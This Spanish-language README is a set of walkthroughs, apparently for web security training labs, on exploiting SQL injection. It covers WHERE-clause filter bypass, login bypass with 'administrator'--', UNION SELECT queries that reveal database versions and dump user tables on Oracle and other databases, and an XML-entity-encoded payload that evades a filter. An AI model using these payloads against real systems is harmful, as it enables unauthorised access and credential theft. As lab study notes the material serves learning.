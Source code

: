 ## SQL Injection

Este repositorio contiene ejemplos prácticos de vulnerabilidades de inyección SQL y cómo explotarlas. A continuación, se describen los procedimientos para cada tipo de ataque.

---

### 1. SQL Injection en la cláusula WHERE para recuperar datos ocultos

1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena: `'+OR+1=1--`.
3. Accede a la URL modificada.

---

### 2. SQL Injection para bypass de login

1. Haz clic en "My account".
2. Inicia sesión usando el usuario: `administrator'--`.
3. En el campo de contraseña, ingresa cualquier valor.
4. Haz clic en "Log in".

---

### 3. SQL Injection para consultar el tipo y versión de la base de datos en Oracle

1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`.
3. Accede a la URL modificada.

---

### 4. SQL Injection con bypass de filtros mediante codificación XML

1. Abre las herramientas de desarrollo (F12).
2. Ve a la pestaña "Network".
3. Haz clic en los detalles de un producto.
4. Haz clic en "Check stock".
5. Copia la petición que recupera el stock como `fetch`.
6. Ve a la pestaña "Console".
7. Pega la petición.
8. Modifica el contenido de la etiqueta `storeId` por:
   ```xml
   &#x31;&#x20;&#x55;&#x4E;&#x49;&#x4F;&#x4E;&#x20;&#x53;&#x45;&#x4C;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6E;&#x61;&#x6D;&#x65;&#x20;&#x7C;&#x7C;&#x27;&#x7E;&#x27;&#x20;&#x7C;&#x7C;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6F;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4F;&#x4D;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
   ```
9. Ejecuta la petición.
10. Usa las credenciales que muestra el `response` para iniciar sesión como administrador.

---

### 5. SQL Injection para consultar el tipo y versión de la base de datos en MySQL y Microsoft

1. Accede a la categoría "Gifts".
2. Agrega a la URL la siguiente cadena:
   ```
   %27%20UNION%20SELECT%20%40%40version,%20%27def%27%20%23
   ```
3. Accede a la URL modificada.

---

### 6. SQL Injection para listar el contenido de la base de datos en bases no-Oracle

1. Accede a la categoría "Pets".
2. Agrega a la URL la siguiente cadena:
   ```
   '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
   ```
3. Accede a la URL modificada para ver las tablas existentes.
4. Encuentra la tabla objetivo (por ejemplo, `users_kkyhth`).
5. Modifica la URL agregando la siguiente cadena:
   ```
   '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kkyhth'--
   ```
6. Accede a la URL modificada para ver las columnas de la tabla.
7. Encuentra las columnas de credenciales (por ejemplo, `username_lgajcw` y `password_ckilco`).
8. Modifica la URL agregando la siguiente cadena:
   ```
   %27+UNION+SELECT+username_lgajcw,+password_ckilco+FROM+users_kkyhth--
   ```
9. Usa las credenciales del administrador para iniciar sesión.

---

### 7. SQL Injection para listar el contenido de la base de datos en Oracle

1. **Determina el número de columnas y su tipo**:
   Usa la siguiente carga útil en el parámetro `category`:
   ```sql
   '+UNION+SELECT+'abc','def'+FROM+dual--
   ```
2. **Recupera la lista de tablas**:
   Usa la siguiente carga útil:
   ```sql
   '+UNION+SELECT+table_name,NULL+FROM+all_tables--
   ```
3. **Encuentra la tabla de credenciales**.
4. **Recupera los detalles de las columnas**:
   Usa la siguiente carga útil (reemplaza `USERS_ABCDEF` con el nombre de la tabla):
   ```sql
   '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
   ```
5. **Encuentra las columnas de nombres de usuario y contraseñas**.
6. **Recupera las credenciales**:
   Usa la siguiente carga útil (reemplaza los nombres de la tabla y las columnas):
   ```sql
   '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
   ```

